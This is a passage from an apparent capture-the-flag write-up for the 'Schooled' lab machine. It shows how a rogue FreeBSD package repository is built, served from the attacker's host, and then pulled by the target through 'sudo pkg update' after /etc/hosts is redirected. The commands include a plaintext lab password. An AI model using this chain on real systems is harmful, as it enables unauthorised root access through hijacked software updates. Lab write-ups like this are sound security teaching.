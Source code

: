 #### Generate Repo Metadata

`pkg repo` will generate the repo metadata files:

```

jamie@Schooled:/var/tmp/.0xdf $ pkg repo .
Creating repository in .: 100%
Packing files for repository: 100%
jamie@Schooled:/var/tmp/.0xdf $ ls
+MANIFEST       +POST_INSTALL   0xdf-1.0_5.txz  meta.conf       meta.txz        packagesite.txz plist           usr

```

### Host Package

I’m going to have Schooled update from my VM, so I need to get these files back to my host, and put them into `/packages` on a webserver. I’ll use `scp`:

```

oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/packagesite.txz packages
oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/meta.* packages
oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/0xdf-1.0_5.txz packages
oxdf@parrot$ find packages/
packages/
packages/meta.txz
packages/packagesite.txz
packages/meta.conf
packages/0xdf-1.0_5.txz

```

In that directory, `python3 -m http.server 80` will host the files.

### Exploit

I’ll re-update `/etc/hosts` with my IP (there’s a cron resetting it frequently), and run `pkg update`:

```

jamie@Schooled:/var/tmp/.0xdf-staging $ sudo pkg update
Updating FreeBSD repository catalogue...
Fetching meta.conf: 100%    163 B   0.2kB/s    00:01    
Fetching packagesite.txz: 100%    460 B   0.5kB/s    00:01    
Processing entries: 100%
FreeBSD repository update completed. 1 packages processed.
All repositories are up to date.

```

The requests at my server look good:
